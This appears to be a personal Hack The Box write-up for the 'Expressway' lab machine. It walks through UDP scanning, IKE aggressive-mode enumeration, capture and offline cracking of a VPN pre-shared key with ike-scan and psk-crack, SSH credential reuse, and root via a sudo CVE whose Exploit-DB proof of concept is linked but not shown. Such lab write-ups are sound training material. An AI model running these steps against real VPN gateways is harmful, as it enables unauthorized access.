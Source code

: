 
2025-10-25 18:40

Source: #htb #Boot2root 

Tags: 
### Enumeration 

Rustscan only shows port 22 open, When TCP fails, we turn to its connectionless counterpart, UDP.

```sh
udpx -t 10.129.13.112 -c 128 -w 1000 
```
- `-c`: Concurrency level
- `-w`: Wait time in milliseconds

----
UDP scan w [[nmap]]

```sh
nmap -sU -p 68,69,500,4500 -sV --script=ike-version,tftp-enum,broadcast-dhcp-discover -Pn --max-retries 3 --host-timeout 5m 10.10.11.87
```

o/p of UDP scan 
68  open  dhcpc
69  open  tftp
500  open  isakmp
#### Fingerprinting IKE (Port 500)

`ike-scan` - It crafts [[Internet Key Exchange]] packets to fingerprint the VPN gateway and elicit responses that can reveal its configuration, identity, and vulnerabilities.

**Initial Probe (Main Mode):**

```sh
sudo ike-scan expressway.htb
```

**Response:**

```sh
Starting ike-scan 1.9.6 with 1 hosts ([http://www.nta-monitor.com/tools/ike-scan/](http://www.nta-monitor.com/tools/ike-scan/))
10.129.13.112  Main Mode Handshake returned HDR=(CKY-R=1d432c635a2e8d64...)
        SA=(Enc=3DES-CBC Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
```

Response Breakdown:
- **Main Mode Handshake:** The server responded in Main Mode, which is more secure as it protects peer identities.
- **Weak Cryptography:** It supports `3DES` (a legacy, weak cipher), `SHA1` (no longer considered secure), and `Group=2:modp1024` (a weak Diffie-Hellman group susceptible to precomputation attacks).
- **Auth=PSK:** Authentication is done via a **Pre-Shared Key**. This is the secret we need to find.

**Aggressive mode scan** 

IKEv1’s Main Mode uses six messages to protect identities. However, Aggressive Mode cuts this down to three messages for a faster connection, but at the cost of sending the initiator and responder’s identities in the clear. If the server supports it, we can force it into this mode to leak valuable information.

```sh
sudo ike-scan -A expressway.htb
```

The server supports Aggressive Mode and leaked an identity: a Fully Qualified Domain Name of a user, `ike@expressway.htb`. This gives us a valid username.

Now we have a username (`ike`) and know the authentication method is a PSK. The final step is to capture the authentication hash from the Aggressive Mode exchange and crack the PSK offline.
#### Capturing the hash 

`ike-scan` can automatically format the necessary data for cracking with its sister tool, `psk-crack`.

```sh
sudo ike-scan -A expressway.htb --id=ike@expressway.htb -Pike.psk
```
above cmd created a ike.psk 

```sh
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```

reuse these new found creds for ssh access
### Privilege Escalation 

#### M1 - exploiting sudo vuln using CVE

First thing I did was check `$PATH` which contains an odd path:

```sh
ike@expressway:/usr/local/bin$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Then I checked the files in `/usr/local/bin` and it contained some sudo binary.
When I ran `./sudo -V` it gave me the version

When you look it up, you can find CVE-2025-32463 which is a local privilege escalation. Exploitdb already has a finished PoC that we can use for our case. [https://www.exploit-db.com/exploits/52352](https://www.exploit-db.com/exploits/52352)

After running the script we get a root shell and can read the root flag

### M2  
### References
https://app.hackthebox.com/machines/736

https://www.isdadev.at/posts/htb-expressway-writeup/
https://thecybersecguru.com/ctf-walkthroughs/mastering-expressway-beginners-guide-from-hackthebox/

IKE Enum - https://routezero.security/2025/04/06/ike-cheat-sheet-for-pentration-testers/